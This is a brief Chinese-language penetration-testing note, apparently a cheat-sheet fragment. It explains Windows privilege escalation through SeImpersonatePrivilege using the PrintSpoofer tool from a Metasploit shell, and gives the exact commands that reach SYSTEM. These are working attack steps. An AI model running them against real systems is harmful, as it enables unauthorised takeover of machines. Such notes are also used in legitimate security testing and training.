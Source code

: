 	>whoami /priv 可以看到SeImpersonatePrivilege状态为Enabled
	上传https://github.com/itm4n/PrintSpoofer/releases
	用msf交互式shell执行
	>PrintSpoofer64.exe -i -c cmd
	>whoami  即可获得system权限
  ##### 更多
  	https://github.com/gtworek/Priv2Admin
